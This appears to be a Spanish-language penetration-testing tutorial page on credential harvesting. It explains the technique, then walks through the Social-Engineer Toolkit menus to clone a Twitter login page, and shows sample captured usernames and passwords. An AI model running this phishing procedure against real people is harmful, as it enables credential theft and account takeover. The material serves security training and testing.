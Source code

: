 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Credential Harvesting

La recolección de credenciales es una técnica de recopilan credenciales de usuario (como ID de usuario, direcciones de correo electrónico, contraseñas y otra información de inicio de sesión).

### ¿Cómo funciona la recolección de credenciales?

Lo más habitual es que se instale un recolector de credenciales  como una extensión maliciosa de un sitio web o una aplicación. Una vez instalado, el recolector registra cualquier información que los usuarios ingresen durante el proceso de inicio de sesión.

Debido a que los recolectores de credenciales registran todos los inicios de sesión de manera indiscriminada, los ciberdelincuentes pueden crear una reserva de nombres de usuario y contraseñas.

Si un ciberdelincuente tiene acceso a una o más contraseñas comprometidas que un individuo usó en el pasado, esa credencial le proporciona un excelente punto de partida para adivinar su información de inicio de sesión para otros sitios o sistemas.

### Técnicas comunes utilizadas en ataques de recolección de credenciales <a href="#techniques" id="techniques"></a>

La recolección de credenciales normalmente se lleva a cabo junto con otra técnica de ciberataque. Métodos de ataque más frecuentes incluyen los siguientes:

* **Malware**
* **Phishing**
* **Suplantación de dominio**
* **Ataques Man-in-the-Middle (MitM)**

Una de las formas más comunes en que los atacantes realizan la recolección de credenciales es mediante el uso de correos electrónicos de phishing y de phishing con enlaces que podrían redirigir a un usuario a un sitio falso. Este "sitio falso" podría simular un servicio en la nube legítimo, como Gmail, Office 365 o incluso un sitio de redes sociales como Twitter, LinkedIn, Instagram o Facebook. Por eso es tan importante utilizar la autenticación multifactor. Sin embargo, en algunos casos, los atacantes podrían eludir la autenticación multifactor redirigiendo al usuario a un sitio malicioso y robando una cookie de sesión del navegador del usuario.

Muchos servicios y aplicaciones alojadas en la nube utilizan el inicio de sesión único (SSO) y otros utilizan autenticación federada. A veces, las aplicaciones basadas en la nube le permiten iniciar sesión con sus credenciales de Google, Apple o Facebook. Los atacantes podrían redirigir a los usuarios a sitios web suplantados que pueden parecer páginas de inicio de sesión legítimas de Google, Apple, Facebook o Twitter. Desde allí, el atacante podría robar el nombre de usuario y la contraseña de la víctima.&#x20;

#### Ataque de recolección de credenciales mediante correos electrónicos de ingeniería social y phishing

Realizar un ataque de ingeniería social y crear una instancia de un sitio web falso para realizar un ataque de recolección de credenciales.

**Paso 1** . Inicie SET ingresando el comando **setoolkit**.

**Paso 2** . Seleccioneen el menú principal, como se muestra en el Ejemplo 7-1.

Inicio del ataque de ingeniería social

```
Select from the menu:
   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About
  99) Exit the Social-Engineer Toolkit
set> 1
```

**Paso 3** . Selección de vectores de ataque a sitios web

```
Select from the menu:
    1) Spear-Phishing Attack Vectors
    2) Website Attack Vectors
    3) Infectious Media Generator
    4) Create a Payload and Listener
    5) Mass Mailer Attack
    6) Arduino-Based Attack Vector
    7) Wireless Access Point Attack Vector
    8) QRCode Generator Attack Vector
    9) Powershell Attack Vectors
   10) Third Party Modules
   99) Return back to the main menu.
set>2 
```

**Etapa 4** . En el menú y la explicación que aparecen a continuación (consulte el Ejemplo 7-3), seleccione **Método de ataque de recolección de credenciales** .

```
The Web Attack module is a unique way of utilizing multiple web-based
attacks in order to compromise the intended victim.
The Java Applet Attack method will spoof a Java Certificate and
deliver a metasploit based payload. Uses a customized java applet
created by Thomas Werth to deliver the payload.
The Metasploit Browser Exploit method will utilize select Metasploit
browser exploits through an iframe and deliver a Metasploit payload.
The Credential Harvester method will utilize web cloning of a
website that has a username and password field and harvest all
the information posted to the website.
The TabNabbing method will wait for a user to move to a different
tab, then refresh the page to something different.
The Web-Jacking Attack method was introduced by white_sheep, emgent.
This method utilizes iframe replacements to make the highlighted URL
link to appear legitimate however when clicked a window pops up then
is replaced with the malicious link. You can edit the link replacement
settings in the set_config if it's too slow/fast.
The Multi-Attack method will add a combination of attacks through
the web attack menu. For example, you can utilize the Java Applet,
Metasploit Browser, Credential Harvester/Tabnabbing all at once to see
which is successful.
The HTA Attack method will allow you to clone a site and perform
powershell injection through HTA files which can be used for
Windows-based powershell exploitation through the browser.
   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method
  99) Return to Main Menu
set:webattack>3
```

**Paso 5** . Seleccione  Plantillas web para utilizar una plantilla web predefinida (Twitter).&#x20;

```
The first method will allow SET to import a list of pre-defined web
applications that it can utilize within the attack.
The second method will completely clone a website of your choosing
and allow you to utilize the attack vectors within the completely
same web application you were attempting to clone.
The third method allows you to import your own website, note that you
should only have an index.html when using the import website
functionality.
   1) Web Templates
   2) Site Cloner
   3) Custom Import
  99) Return to Webattack Menu
set:webattack>1
```

**Paso 6** . Ingrese la dirección IP del host que le gustaría usar para recopilar las credenciales del usuario.

```
[-] Credential harvester will allow you to utilize the clone
capabilities within SET
[-] to harvest credentials or parameters from a website as well as
place them into a report
-----------------------------------------------------------------------
-- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS *
IMPORTANT * --
The way that this works is by cloning a site and looking for form
fields to rewrite. If the POST fields are not usual methods for
posting forms this could fail. If it does, you can always save the
HTML, rewrite the forms to be standard forms and use the "IMPORT"
feature. Additionally, really important:
If you are using an EXTERNAL IP ADDRESS, you need to place the
EXTERNAL IP address below, not your NAT address. Additionally, if
you don't know basic networking concepts, and you have a private
IP address, you will need to do port forwarding to your NAT IP
address from your external IP address. A browser doesn't know how
to communicate with a private IP address, so if you don't specify
an external IP address if you are using this from an external
perspective, it will not work. This isn't a SET issue this is how
networking works.
set:webattack> IP address for the POST back in Harvester/Tabnabbing
[192.168.88.225]:

```

**Paso 7** . Seleccione **Twitter** o cualquier plantilla objetivo.

```
--------------------------------------------------------
                 **** Important Information ****
For templates, when a POST is initiated to harvest
credentials, you will need a site for it to redirect.
You can configure this option under:
      /etc/setoolkit/set.config
Edit this file, and change HARVESTER_REDIRECT and
HARVESTER_URL to the sites you want to redirect to
after it is posted. If you do not set these, then
it will not redirect properly. This only goes for
templates.
--------------------------------------------------------
  1. Java Required
  2. Google
  3. Twitter
set:webattack> Select a template:3
[*] Cloning the website: http://www.twitter.com
[*] This could take a little bit...
The best way to use this attack is if username and password form
fields are available. Regardless, this captures all POSTs on a
website.
[*] The Social-Engineer Toolkit Credential Harvester Attack
[*] Credential Harvester is running on port 80
[*] Information will be displayed to you as it arrives below:
```

Luego, puede redirigir a los usuarios a este sitio falso de Twitter enviando un correo electrónico de phishing o aprovechando vulnerabilidades web como secuencias de comandos entre sitios (XSS) y falsificación de solicitudes entre sitios (CSRF).

_Recopilación de credenciales de usuario._

```
192.168.78.238 - - [28/Jun/2021 23:07:41] "GET / HTTP/1.1" 200 -
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: session[username_or_email]=santosomar
POSSIBLE PASSWORD FIELD FOUND: session[password]=superbadpassword
PARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52
PARAM: scribe_log=
POSSIBLE USERNAME FIELD FOUND: redirect_after_login=
PARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
192.168.78.238 - - [28/Jun/2021 23:08:27] "POST /sessions HTTP/1.1"
302 - 

```

<mark style="color:red;">**Recursos**</mark>&#x20;

{% embed url="https://www.crowdstrike.com/cybersecurity-101/cyberattacks/credential-harvesting/" %}

